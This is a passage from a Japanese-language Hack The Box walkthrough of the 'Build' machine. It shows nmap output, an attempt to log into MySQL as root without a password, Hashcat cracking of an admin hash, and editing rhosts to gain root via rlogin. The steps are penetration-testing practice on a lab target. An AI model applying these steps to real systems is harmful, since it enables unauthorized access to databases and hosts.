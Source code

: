 ```sh
|   FourOhFourRequest, GenericLines: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 9
|     Content-Type: text/plain; charset=utf-8
|     Found
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 401 Unauthorized
|     Connection: close
|     Content-Length: 12
|     Content-Type: text/plain; charset=utf-8
|     Www-Authenticate: Basic realm="PowerDNS"
|     Unauthorized
|   LDAPSearchReq, RTSPRequest, SIPOptions: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Length: 11
|     Content-Type: text/plain; charset=utf-8
|_    Request


```


buildadmの認証情報でログインできるかを試す
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Build]
└─$ mysql --protocol=TCP -h 172.18.0.1 -P 3306 -u buildadm -p --connect-timeout=5
Enter password: 
ERROR 2002 (HY000): Can't connect to server on '172.18.0.1' (110)

```

rootパスワードなしで接続する
```sh
mysql --protocol=TCP -h 172.18.0.1 -P 3306 -u root -p --connect-timeout=5
```

usersテーブルにadminのパスワードハッシュがあり、それをHaschcatで解読すると、winstonであることがわかる

172.18.06が80でポートが空いているのでアクセスする
Admin : winstonでログインする
- http://172.18.0.6/dashboard/
![](https://i.imgur.com/ailD2Fi.png)

dockerの構成がわかる
![](https://i.imgur.com/uje34us.png)
- rhostsにadminがあって、パスワードなしでログインできるのに、設定されていない
- 自分のマシンのIPからでログインできるように編集する
![](https://i.imgur.com/wnJygqh.png)


これでrootが取得できる
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Build]
└─$  sudo rlogin 10.129.234.169
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-144-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Sep  4 06:34:16 AM UTC 2025

  System load:  1.69              Processes:             184
  Usage of /:   67.3% of 9.75GB   Users logged in:       0
```